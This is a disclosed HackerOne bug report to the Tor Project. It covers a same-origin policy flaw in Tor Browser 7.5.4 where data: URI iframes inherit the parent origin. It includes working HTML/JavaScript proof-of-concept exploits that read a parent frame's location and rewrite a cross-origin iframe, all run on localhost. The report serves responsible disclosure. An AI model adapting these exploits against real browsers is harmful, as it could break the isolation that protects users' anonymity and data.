 # Tor Browser: iframe with `data:` uri  has access to parent window

## Report Details
- **Report ID**: 358005
- **URL**: https://hackerone.com/reports/358005
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-05-27T00:30:07.597Z
- **Disclosed**: 2018-06-06T19:56:28.922Z

## Reporter
- **Username**: metnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: torproject

## Vulnerability Information
## Version:
7.5.4 (based on Mozilla Firefox 52.8.0)
Tested with standard security slider. However, it's likely to be possible with a higher security level.

## Summary

In Tor Browser iframe with `data:uri` inherits the origin of parent window.
That leads to iframe has access to parent window.

## PoC

### Iframe could access parent window's location

>  iframe-access-parent.html 
```html
<body>
    <script>
        let f = document.body.appendChild(document.createElement('iframe'))
        f.src =
            'data:text/html,' +
            `<script>alert(parent.location)</scrip` + `t>` 
        // should throw "SecurityError...", instead `alert()` works
    </script>
</body>
```

### iframe could access another iframe with src=data uri

> data-uri-access-another-data-uri.html
```html
<body>
    <script>
        let g = document.body.appendChild(document.createElement('iframe'))
        let f = document.body.appendChild(document.createElement('iframe'))

        g.src =
            'data:text/html,' + 'First iframe with data:uri'

        f.src =
            'data:text/html,' +
            `Second iframe with data:uri <script>alert("Iframe with data:uri could access another same-origin iframe with data:uri, first iframe location is: " + parent.window.frames[0].location.href)</scr` + `ipt>`

    </script>
</body>
```

### data:uri iframe could rewrite content of another cross-origin iframe via data:uri

##### 127.0.0.1:5000/exploit.html

```html
<body>
    <script>
        let g = document.body.appendChild(document.createElement('iframe'))
        let f = document.body.appendChild(document.createElement('iframe'))

        g.src =
            'http://127.0.0.1:5001/5001.html'

        g.onload = () => {
            f.src =
                'data:text/html,' +
                `Second iframe with data:uri 
                <script>
                    if (!parent.window.frames[0][0]) {
                        console.log('This block called in the context of |Second iframe with data:uri|');
                        console.log('If first script sets parent.window.location to some valid value');
                        console.log('it removes parent.window.frames[0][0].location from the DOM');
                        console.log('Tor re-runs script in this cause, but in context of this window');
                        console.log('e.g. window with |Second iframe with data:uri| text');
                    } else {
                        parent.window.frames[0][0].location = "data:text/html,5000 iframe rewrites  5001<script>
                        window.onload = () => {
                            console.log('This block called in the context of |5000 iframe rewrites 5001|');
                            parent.window.location = 'about:blank'
                        }
                        </scr" + "ipt>";
                    }
                    
                </scr` + `ipt>`
        }

    </script>
    <h4>we could rewrite data:uri in crossdomain windows</h4>
</body>
```

##### 127.0.0.1:5001/5001.html
```html
<html>

<body>
    <script>
        let y = document.body.appendChild(document.createElement('iframe'))
        y.src = 'data:text/html,datauri 5001'
    </script>
</body>

</html>
```

The iframe from 5000 port could rewrite an iframe in a different origin, but it doesn't have access to "parent" at 5001 port, so direct UXSS is impossible.

> Also, there is an interesting case described in PoC. Function in the iframe from port 5000 called twice in different contexts. 

## Expected behavior

### 1. In latest Chrome, Firefox, Safari iframe with `data:` uri has `null` origin and can't access parent window's location.

PoC in Chrome/FF/Safari throws error:

```
SecurityError: Blocked a frame with origin "null" from accessing a frame with origin "http://127.0.0.1:5000".  The frame requesting access has a protocol of "data", the frame being accessed has a protocol of "http". Protocols must match.
```

### 2. iframe can't rewrite another iframe's content via data uri.
Same as in the 1 case.

```
SecurityError: Permission denied to access property "href" on cross-origin object
```

### 3.

FF
```
NS_ERROR_DOM_PROP_ACCESS_DENIED: Access to property denied
```

Chrome/Safari
```
Unsafe JavaScript attempt to initiate navigation for frame with URL...
SecurityError: The operation is insecure.
```

## Impact

Partial SOP violation. 
Direct UXSS seems impossible, but described behavior opens a wide range of attack scenarios.
1. Any malicious iframe src=`data:uri` could access parent
2. Any malicious iframe src=`data:uri` could rewrite other frames's location (to data:uri too) in DOM using `parent.window.frames`

## Attachments
- data-uri-access-another-data-uri.html
- iframe-access-parent.html
- 5001.html
- exploit.html
